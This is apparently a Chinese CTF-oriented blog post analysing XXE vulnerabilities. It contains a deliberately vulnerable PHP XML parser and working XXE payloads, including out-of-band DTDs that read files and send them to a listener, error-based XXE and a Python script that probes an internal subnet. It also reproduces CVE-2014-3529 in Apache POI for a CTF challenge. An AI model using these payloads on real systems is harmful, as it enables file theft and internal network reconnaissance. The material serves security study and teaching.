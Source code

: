 ```yaml
---
title: XXE漏洞分析及实战
published: 2020-05-10
description: ''
image: ''
tags: ['post', 'XXE', '安全', 'CTF']
category: '周报'
draft: false
lang: ''
---
```

 XXE漏洞分析及实战


<!-- ![XXE](./attachments/bafkreibpyhsxugvx3jngnspcbweekp5asywvwpv72nybem7naignkt5mz4.png) -->

 常用payload分析

好像大家都用这个测试代码

```php
<?php

libxml_disable_entity_loader(false);

$xmlfile = file_get_contents("php://input");
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
var_dump($creds);
```

使用XML发送数据：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY a SYSTEM "http://localhost:8887/aaaaa">
]>
<root>&a;</root>
```

但是我在尝试参数实体的时候似乎不能外带数据

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % a "http://localhost:8887/aaa">
%a;
]>
<root></root>
```

<!-- ![DraggedImage](./attachments/bafkreiarflv5okukw4dy22eev3qlaad7kzwx25ueejx3kl7narps3walkm.png) -->

嵌套也是不行的

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ENTITY % file SYSTEM "file:///flag.txt">  
	<!ENTITY % start "<!ENTITY &x25; send SYSTEM 'http://localhost:8887/?%file;'>">
	%start;
	%send;
]>
```

最常用的外带数据的方法：

在自己的vps上准备两个文件，我这里就就都在本机做的实验

本地的8001端口开一个web服务，

<!-- ![DraggedImage-1](./attachments/bafkreihrsrf3xj4fkewy5slilakd63vxusorh2dr2tmwyk6cs7nmaozfyq.png) -->


`local.xml` 文件内容：

```xml
<!ENTITY % start "<!ENTITY &x25; send SYSTEM 'http://localhost:8887/?%file;'>">
%start;
```

这个文件表示读取到数据之后发送给另一个8887端口，然后我们向受害者服务器发送数据，

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">  
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./flag.txt">
	%remote;
	%send;
]>
<message>1234</message>
```

然后就可以在8887端口接收到数据了

<!-- ![DraggedImage-2](./attachments/bafkreihkp5pbygyf7nk6yss2v25srqsvztx5343zfkiuxjce2o2it3p7yu.png) -->


换一种 `payload` 也行

DTD文件

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &37; send SYSTEM 'http://localhost:8887/p=%file;'>">
```

发送的 paylod

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">
%remote;%int;%send;
]>
```

 报错XXE

这个方法p牛其实早就说过了,通过三层嵌套的XML就可以达到报错

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
	<!ELEMENT message ANY>
	<!ENTITY % para1 SYSTEM "file:///flag">
	<!ENTITY % para '
		<!ENTITY &x25; para2 "<!ENTITY &x26;x25; error SYSTEM &x27;file:///&x25;para1;&x27;>">
		&x25;para2;
	'>
	%para;
]>
<message>10</message>
```


<!-- ![image](./attachments/bafkreidydytastdjupui3uto5mhvuhibr5kykafhiajnf5wxoboot7hn2a.png) -->


 XXE探测内网

```xml
import requests
import base64
Origtional XML that the server accepts

<xml>

    <stuff>user</stuff>

</xml>



def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://127.0.0.1/xml.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2]  a little split to get only the base64 encoded value
    print coded_string
   print base64.b64decode(coded_string)

for i in range(1, 255):
    try:
        i = str(i)
        ip = '192.168.1.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
      print "error"
continue
```

 实例分析

 网鼎杯2020 fileJava

用到的漏洞就是 `CVE20143529`

复现代码

```java
import org.apache.poi.EncryptedDocumentException;
import org.apache.poi.openxml4j.exceptions.InvalidFormatException;
import org.apache.poi.ss.usermodel.Sheet;
import org.apache.poi.ss.usermodel.Workbook;
import org.apache.poi.ss.usermodel.WorkbookFactory;
import java.io.FileInputStream;
import java.io.IOException;
public class CVE20143529 {
    public static void main(String[] args) throws IOException, EncryptedDocumentException, InvalidFormatException {
        Workbook wb1 = WorkbookFactory.create(new FileInputStream("test1.xlsx"));
        Sheet sheet = wb1.getSheetAt(0);
        System.out.println(sheet.getLastRowNum());
    }
}
```

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>pxyapache</groupId>
    <artifactId>pxypxy</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>org.apache.poi</groupId>
            <artifactId>poi-ooxml</artifactId>
            <version>3.10-FINAL</version>
        </dependency>
    </dependencies>

</project>
```

利用过程：

准备一个excel文件：

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://localhost:8001/local.xml">
%remote;%int;%send;
]>
```



<!-- ![image](./attachments/bafkreige33gaqt6gt3xpt4qvbkrsrr7pfts7jnckiaxtbwmotgr3kc5dda.png) -->

准备DTD文件

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &37; send SYSTEM 'http://localhost:8887/p=%file;'>">
```

会读取文件，然后将其发送到8887端口上


<!-- ![image](./attachments/bafkreiagmltdrids3l6nczwwokd3inj5tjnp7fhqjdmjizdy6dp4kums5y.png) -->


监听得到的flag


<!-- ![image](./attachments/bafkreie6sk6ylq4lvc7bnyvhikae2y2tgl5n6llh5wuc5w6ujv6hvwgm4i.png) -->


 参考

YouTube这个视频其实讲的不错：[https://youtu.be/gjm6VHZa\_8s?si=rMGJmuSI9XJNtt\_S](https://youtu.be/gjm6VHZa_8s?si=rMGJmuSI9XJNtt_S)

